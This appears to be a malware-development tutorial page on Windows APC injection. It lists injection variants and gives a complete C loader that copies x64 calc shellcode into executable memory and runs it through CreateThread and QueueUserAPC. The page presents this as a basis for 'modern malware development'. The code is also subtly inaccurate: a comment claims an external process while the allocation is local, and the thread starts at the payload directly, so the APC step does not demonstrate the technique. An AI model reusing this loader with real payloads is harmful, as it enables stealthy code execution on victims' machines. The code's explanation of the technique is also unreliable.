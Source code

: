 ```yaml
---
description: >-
  Asynchronous Procedure Calls (APCs) are Windows operating system mechanism
  that enables programs to execute tasks asynchronously while continuing to run
  other tasks.
---
```


# APC Injection

## Introduction

APC Injection is a more stealthy and advanced form of process injection, it is a well known technique with many variations. Heres a fiew:

* QueueUserAPC APC Injection (Most common)
* NtQueueApcThread APC Injection
* Early Bird Injection
* AtomBombimg
* Reflective DLL Injection - Can be used in conjunction with APC.



### Alertable State

Not all threads can run a queued APC function, only threads in an _**alterable state**_ can do so.





## QueueUserAPC Injection

Here is the most basic example of APC Injection utilizing the QueueUserAPC Win32 Function & CreateThread. It works by allocating memory in the current running process (VirtualAlloc), copying the payload to the allocated memory, and executing it with QueueUserAPC.

_<mark style="color:red;">**NOTE:**</mark>_ Obviously this is unpractical but may serve as a good reference. Thread hijacking, obfuscations, deletion, amongst other anti analysis techniques are all things that are required in modern malware development.



```c
#include <wchar.h>
#include <stdio.h>
#include <windows.h>


// x64 calc shellcode 
unsigned char Payload[] = {
	0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51,
	0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52,
	0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 0x8B, 0x72,
	0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41,
	0x01, 0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B,
	0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
	0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
	0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41,
	0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1,
	0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
	0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44,
	0x8B, 0x40, 0x1C, 0x49, 0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01,
	0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 0x41, 0x59,
	0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
	0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48,
	0xBA, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D,
	0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B, 0x6F, 0x87, 0xFF, 0xD5,
	0xBB, 0xE0, 0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
	0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0,
	0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89,
	0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x00
};


int wmain(int argc, wchar_t* argv[]) {

    HANDLE hThread = NULL;
    LPVOID lpBuffer = NULL;

    // Allocate Memory in External Process
    lpBuffer = VirtualAlloc(NULL,  sizeof(Payload), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (lpBuffer == NULL) {
        wprintf(L"Failed to Allocate Buffer %d\n", GetLastError());
        return -1;
    }

    memcpy(lpBuffer, Payload, sizeof(Payload));

    hThread = CreateThread(NULL, 0, lpBuffer, NULL, 0, NULL);
    if (hThread == NULL) {
        wprintf(L"Failed to Create Thread %d\n", GetLastError());
        return -1;
    }

    if (!QueueUserAPC((PAPCFUNC)lpBuffer, hThread, NULL)) {
        wprintf(L"Failed to Execute Payload via QueueUserAPC %d\n", GetLastError());
    }
    Sleep(3000);

    // Cleanup
    VirtualFree(lpBuffer, 0, MEM_RELEASE);
    CloseHandle(hThread);
    return 0;
}
```

##

<figure><img src="../../.gitbook/assets/Screenshot 2023-09-25 165643 (1).png" alt=""><figcaption><p>It works!</p></figcaption></figure>

## M_**ore on Asynchronous Procedure Calls:**_

{% embed url="https://learn.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls" %}
